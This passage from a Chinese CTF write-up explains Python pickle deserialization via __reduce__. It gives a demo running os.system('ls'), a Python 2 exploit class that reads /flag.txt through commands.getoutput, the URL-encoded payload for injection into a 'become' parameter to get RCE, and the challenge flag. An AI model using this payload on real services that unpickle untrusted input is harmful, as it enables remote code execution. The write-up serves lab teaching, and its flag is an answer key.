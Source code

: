 python中的类有一个`__reduce__`方法，类似与PHP中的`__wakeup__`，在反序列化的时候会自动调用。

- reduce它要么返回一个代表全局名称的字符串，Pyhton会查找它并pickle，要么返回一个元组。
  这个元组包含2到5个元素，其中包括：
  一个可调用的对象，用于重建对象时调用；
  一个参数元素，供那个可调用对象使用；
  被传递给 setstate 的状态（可选）；一个产生被pickle的列表元素的迭代器（可选）；一个产生被pickle的字典元素的迭代器（可选）

 

看一个例子：

```
import pickle
import os
class A(object):
    def __reduce__(self):
        return (os.system,('ls',))
a = A()
test = pickle.dumps(a)
pickle.loads(test)
```

命令会被执行；

那么嫖一个exp：

```
#python2
# coding=utf8
import pickle
import urllib
import commands

class payload(object):
    def __reduce__(self):
        #return (commands.getoutput,('ls /',))
        return (commands.getoutput,('tac /flag.txt',))

a = payload()
print urllib.quote(pickle.dumps(a))
```

py2跑一下得到：

```
ccommands%0Agetoutput%0Ap0%0A%28S%27tac%20/flag.txt%27%0Ap1%0Atp2%0ARp3%0A.
```

抓包改become=（上面的），可以RCE

flag{922dd06c-d1e7-4550-b9fd-80332ff3bb87}

 

 

 

 

### [[MRCTF2020\]套娃](https://buuoj.cn/challenges#[MRCTF2020]套娃)
